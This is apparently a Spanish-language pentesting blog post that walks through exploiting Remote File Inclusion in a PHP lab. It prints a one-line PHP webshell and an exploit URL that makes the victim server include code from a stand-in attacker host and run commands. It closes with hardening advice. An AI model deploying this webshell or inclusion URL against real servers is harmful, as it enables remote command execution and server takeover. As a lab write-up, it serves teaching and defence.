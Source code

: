 ```yaml
---
title: Remote File Inclusion (RFI)
published: 2025-02-24
description: "Explotación de la vulnerabilidad Remote File Inclusion (RFI) para ejecutar comandos remotos en servidores vulnerables."
image: "./portada.png"
tags: ["RFI", "Web", "Pentesting"]
category: Web
draft: false
---
```



## Índice
- [Introducción](#Introducción)
- [Entorno de pruebas](#Entorno-de-pruebas)
- [Conclusión](#Conclusión)

## Introducción
El **Remote File Inclusion (RFI)** es una vulnerabilidad que permite a un atacante incluir archivos remotos en un servidor vulnerable. A diferencia del Local File Inclusion (LFI), que solo carga archivos locales, el RFI permite ejecutar código alojado en otra web.

Esto es peligroso porque un atacante puede alojar un archivo malicioso en su propio servidor y usar la vulnerabilidad para ejecutarlo en la máquina víctima. Esto puede llevar a la toma de control del sistema, robo de datos o la instalación de malware.

En este caso alojaremos una WebShell como POC.

## Entorno de pruebas
- 2 Equipos:
    - **Máquina atacante**: Kali Linux => 192.168.1.20
    - **Máquina servidor WEB**: Ubuntu  => 192.168.1.30

![img0](./entorno.png)

Para poder lograr explotar esta vulnerabilidad, deberemos crear un archivo PHP que permita la inclusión de archivos:

![img1](./portada.png)

Este código básico permite que el servidor reciba un valor mediante una solicitud GET a través del parámetro file e incluya el archivo correspondiente en la página.

Con esta sencilla configuración, ya tenemos un **Local File Inclusion (LFI)** funcional.
Servidor WEB
```
php -S 192.168.1.30:80
```
![img1](./phpserv1.png)

Kali Linux
```
http://192.168.1.30/?file=flag.txt
```
![img2](./lfi.png)

Para lograr un **Remote File Inclusion (RFI)** y poder subir un archivo al servidor de forma remota, es necesario modificar la configuración de PHP en el archivo ``php.ini``. En particular, hay que habilitar la opción que permite la inclusión de archivos desde URLs remotas.

Dentro de este archivo, tenemos que buscar la variable allow_url_include:

![img3](./include.png)

Una vez que se ha habilitado la **inclusión remota de archivos (RFI)** y se ha configurado adecuadamente el archivo ``php.ini``, el siguiente paso es intentar llamar nuestra webshell para poder lanzar comandos remotamente.

1. Crear un servidor HTTP en la máquina atacante para alojar la Webshell.
```php
<?php system($_GET['cmd']); ?>
```
![img4](./python3.png)

Este código PHP permite ejecutar comandos del sistema que se pasan como parámetros en la URL. Por ejemplo, si visitamos ``http://attacker.com/shell.php?cmd=ls``, el servidor devolverá el resultado del comando ls ejecutado en la máquina atacante.

2. Llamar a la Webshell alojada en nuestra máquina atacante.
   
Una vez que la webshell está cargada en el servidor atacante, el siguiente paso es aprovechar la vulnerabilidad Remote File Inclusion (RFI) en el servidor víctima. Si el servidor víctima permite incluir archivos desde URLs remotas, podemos incluir la webshell alojada en nuestra máquina atacante.

La URL para incluir la webshell en el servidor víctima podría verse algo así:
``
http://victimsite.com/index.php?file=http://attacker.com/shell.php&cmd=id
``

![img5](./rcc.png)
   
Estamos ejecutando comandos localmente usando un archivo remoto. Esto es básicamente un Remote File Inclusion.

## Conclusión


El **Remote File Inclusion (RFI)** es una vulnerabilidad crítica que permite a los atacantes ejecutar código remoto en un servidor vulnerable, comprometiendo gravemente la seguridad del sistema. A través de la inclusión de archivos externos, un atacante puede ejecutar comandos arbitrarios, acceder a información sensible o incluso tomar control completo del servidor afectado.

En este post, hemos demostrado cómo un atacante puede aprovechar esta vulnerabilidad para cargar y ejecutar una **webshell** remotamente, utilizando una configuración incorrecta de PHP. Al habilitar opciones como `allow_url_include` y manipular el parámetro `file`, el atacante puede hacer que el servidor incluya un archivo desde un servidor controlado por él y ejecutar comandos del sistema.

Es fundamental que los administradores de sistemas mantengan configuraciones seguras, validen entradas de usuario adecuadamente y desactiven opciones inseguras como la inclusión remota de archivos. La prevención de ataques RFI es crucial para proteger los servidores de ataques externos que pueden tener consecuencias devastadoras.

![img6](./rig.gif)
